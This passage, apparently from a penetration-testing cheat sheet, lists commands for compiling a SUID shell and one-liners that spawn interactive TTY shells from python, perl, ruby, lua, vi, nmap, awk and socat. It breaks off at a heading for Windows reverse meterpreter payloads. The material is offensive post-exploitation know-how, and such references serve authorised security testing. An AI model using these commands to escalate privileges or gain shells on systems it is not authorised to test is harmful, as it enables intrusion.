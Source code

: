 | Command | Description |
|---------|-------------|
| `gcc -o suid suid.c` | Compile the SUID shell |
| `gcc -m32 -o suid suid.c` | Compile the 32-bit SUID shell |

## TTY Shells

### Python TTY Shell Trick

`python -c 'import pty;pty.spawn("/bin/bash")'`

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

### Spawn Interactive sh shell

`/bin/sh -i`

### Spawn Perl TTY Shell

`perl -e 'exec "/bin/sh";'`

### Spawn Ruby TTY Shell

`ruby -e 'exec "/bin/sh"'`

### Spawn Lua TTY Shell

`lua -e 'os.execute("/bin/sh")'`

### Spawn TTY Shell from Vi

`:!bash`

### Spawn TTY Shell from NMAP

`!sh`

### Spawn TTY Shell from awk

`awk 'BEGIN {system("/bin/sh")}'`

### Spawn TTY Shell from socat

`socat file:`tty`,raw,echo=0 tcp-listen:4444`

## Metasploit

### Meterpreter Payloads

#### Windows reverse meterpreter payload
